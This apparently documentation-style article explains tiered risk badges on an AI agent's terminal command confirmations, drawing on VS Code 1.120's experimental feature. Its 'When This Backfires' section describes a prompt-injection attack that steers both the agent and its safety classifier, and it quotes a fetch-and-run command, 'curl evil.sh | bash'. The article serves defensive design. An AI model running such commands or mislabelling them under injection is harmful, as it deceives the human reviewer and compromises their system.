

# Pre-Execution Risk Classification for Terminal Commands

> Display a tiered Safe/Caution/Review-carefully badge with command-specific text before the agent runs a terminal command — an attention-allocation lever that tunes which confirmations get read, paired with deterministic allowlists that carry the policy load.

## The Problem Risk Badges Address

[Confirmation gates](human-in-the-loop-confirmation-gates.md) on consequential actions fail at the human layer when every prompt looks identical. Reviewers pattern-match on surface features and approve without reading — the rubber-stamp dynamic that [Audit Confirmation Gate Logs](../agent-readiness/audit-confirmation-gate-logs.md) targets and that [Tool Confirmation Carousel](../agent-design/tool-confirmation-carousel.md) treats as the dominant residual-prompt failure mode.

A tiered visual badge changes the cost calculus. A green "Safe" chip on `ls -la` and a red "Review carefully" chip on `git push --force origin main` are visibly different at a glance, so attention concentrates where it should. The badge does not gate the action — the existing confirmation gate, allowlist, or deny rule still does. It tunes which gates a human actually reads.

## The VS Code 1.120 Reference Implementation

VS Code 1.120 (May 2026) ships this as an experimental feature behind `chat.tools.riskAssessment.enabled`. From the [release notes](https://code.visualstudio.com/updates/v1_120): "terminal command confirmations now include a risk badge with an AI-generated explanation of what the command does."

The taxonomy is three tiers with verbatim criteria:

| Tier | Color | Triggers |
|---|---|---|
| **Safe** | green | "reads files or prints output without making changes" |
| **Caution** | orange | "modifies the workspace, installs packages, or sends data over the network" |
| **Review carefully** | red | "performs an action that may be difficult or impossible to undo, such as force-pushing to a remote or deleting files outside the workspace" |

Source: [VS Code 1.120 release notes](https://code.visualstudio.com/updates/v1_120).

Each badge ships with "a one-sentence summary tailored to the specific command" — not a static description of the tier. The command-specific text is what makes the badge an attention lever rather than decoration.

## Design Rules That Separate Signal From Decoration

**Three tiers, no more.** Two tiers (Safe / Not-safe) collapse to the existing binary prompt. Four or more blur the signal — operators stop distinguishing "Caution" from "Review carefully" the same way they stopped distinguishing identical prompts.

**Command-specific summary text, not tier-level boilerplate.** A red badge reading "Review carefully — this command may be hard to undo" is generic warning text. A red badge reading "Review carefully — force-pushes to `main` and overwrites remote history" is a load-bearing fact about the invocation. Generic warnings get filtered out the same way uniform prompts do.

**Classify on resolved scope, not raw string.** `rm -rf ./build` in a `/tmp` sandbox and the same command from the repo root with `./build` symlinked to `/` are the same string and wildly different actions. A classifier that regex-matches the command text false-safes on path-dependent commands. The [Theia shell-execution design proposal](https://github.com/eclipse-theia/theia/issues/16772) makes the same point at the policy layer — its four-level capability classification operates on the parsed structure (binary, flags, target paths), not the surface string.

**Treat the badge as advisory, not policy.** Allowlists, deny rules, and PreToolUse hooks carry the security guarantee. VS Code's own [security documentation](https://code.visualstudio.com/docs/copilot/security) caveats that auto-approval rules use "best-effort command parsing and have known limitations with shell aliases, quote concatenation, and complex shell syntax" — a classifier built on the same parsing inherits the same limits. Organizations that need a hard floor disable terminal auto-approval entirely via `ChatToolsTerminalEnableAutoApprove` and keep badges as a layered hint.

## How Badges Layer With Allowlists

Badges and allowlists operate on different axes:

| Layer | Mechanism | Question it answers |
|---|---|---|
| Deny rules | Deterministic match | Can this command run at all? |
| Allowlist | Deterministic match | Can it run without asking? |
| Risk badge | Model-generated classification | If it asks, how hard should you read? |
| Confirmation gate | Human decision | Approve or reject? |

[Evidence-Based Allowlist Auto-Discovery](../agent-readiness/bootstrap-evidence-based-allowlist.md) promotes safe commands off the prompt path entirely; risk badges then concentrate attention on the residual set. A badge on every command means the allowlist is under-tuned.

## Calibrating the Classifier Against Decisions

The classifier is a hypothesis the gate-decision log can validate. Per [Audit Confirmation Gate Logs](../agent-readiness/audit-confirmation-gate-logs.md), joining decisions to badge tier surfaces miscalibration:

- **Safe with non-trivial rejection rate** → classifier under-rates; the green chip masks commands the human reads as dangerous on inspection.
- **Review-carefully approved in under N seconds** → highest-risk tier is rubber-stamped through.
- **Caution with no rejections** → either over-tagging routine commands or the operator has trained themselves to ignore orange.

Calibration is a recurring audit, not a one-time tuning.

## When This Backfires

**Adversarial inputs steer the badge itself.** The Lies-in-the-Loop attack class — documented in [Checkmarx Zero's writeup](https://www.infosecurity-magazine.com/news/lies-loop-attack-ai-safety-dialogs/) — uses injected content to manipulate the safety dialog the human sees. A classifier driven by the same model that may be under injection is in scope for the same attack: a malicious README that steers the agent toward `curl evil.sh | bash` can also steer the classifier toward "Safe — lists files in the project." Mitigations: generate the classification from a separate, isolated model with no access to the untrusted content the main agent processed; or compute the tier deterministically from parsed command structure where tractable.

**Color-only signal in high-volume sessions.** Tier coding assumes the operator distinguishes green from orange from red and attends to the badge channel. In a session with dozens of green confirmations, attention collapses on the color axis before it does on the summary text. Pair the visual signal with a textual cue (`[SAFE]` / `[CAUTION]` / `[REVIEW]` prefix) for accessibility and to keep the discriminative load on the word.

**Fatigue migrates rather than dissolves.** Reintroducing differentiation reduces fatigue on uniform prompts. If every command then arrives with a "Caution" badge — common in agents that install packages and modify the workspace as routine work — operators learn to ignore orange the same way they ignored the prompt. Risk classification is one lever in a stack that includes allowlists, sandboxing, and reduced-prompt patterns; on its own it shifts where attention collapses, not whether.

## Key Takeaways

- A three-tier visual badge (Safe / Caution / Review carefully) on terminal command confirmations restores discriminative attention that uniform prompts collapse.
- VS Code 1.120 ships this as `chat.tools.riskAssessment.enabled` with verbatim trigger criteria for each tier — read-only, workspace-or-network, hard-to-undo.
- The badge text must be command-specific to the invocation; generic tier-level warnings get ignored the same way uniform prompts do.
- Classify on the resolved command (binary, flags, target paths) rather than regex on the raw string — same string, different blast radius is the dominant false-safe.
- Badges are advisory, not policy: deny rules and allowlists carry the security guarantee; badges concentrate attention on the prompts that still reach the human.
- Calibrate against the gate-decision log — Safe rejections, Review-carefully fast-approvals, and zero-rejection Cautions all signal classifier drift.
- The classifier inherits the agent's attack surface when generated by the same model; isolate it or compute deterministic tiers where possible.

## Related

- [Human-in-the-Loop Confirmation Gates](human-in-the-loop-confirmation-gates.md)
- [Audit Confirmation Gate Logs](../agent-readiness/audit-confirmation-gate-logs.md)
- [Evidence-Based Allowlist Auto-Discovery](../agent-readiness/bootstrap-evidence-based-allowlist.md)
- [Tool Confirmation Carousel](../agent-design/tool-confirmation-carousel.md)
- [Permission-Gated Custom Commands](permission-gated-commands.md)
- [Transcript-Driven Permission Allowlist](transcript-driven-permission-allowlist.md)
- [Defense-in-Depth Agent Safety](defense-in-depth-agent-safety.md)
- [Hybrid Deterministic + Semantic Tool Authorization](hybrid-deterministic-semantic-tool-authorization.md)
